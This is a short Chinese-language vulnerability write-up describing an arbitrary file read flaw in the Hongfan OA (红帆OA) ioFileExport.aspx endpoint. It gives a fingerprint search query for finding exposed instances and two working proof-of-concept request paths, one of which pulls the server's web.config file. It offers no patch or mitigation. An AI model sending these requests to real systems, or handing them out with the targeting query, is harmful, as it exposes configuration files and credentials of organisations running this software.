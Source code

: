 # 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
红帆OA
```

## 网络测绘

```
app="红帆-ioffice"
```

## 漏洞复现

登录页面

![image-20220520142002215](images/202205201420294.png)

验证POC, 读取web.config文件

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142019955](images/202205201420011.png)

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142034423](images/202205201420478.png)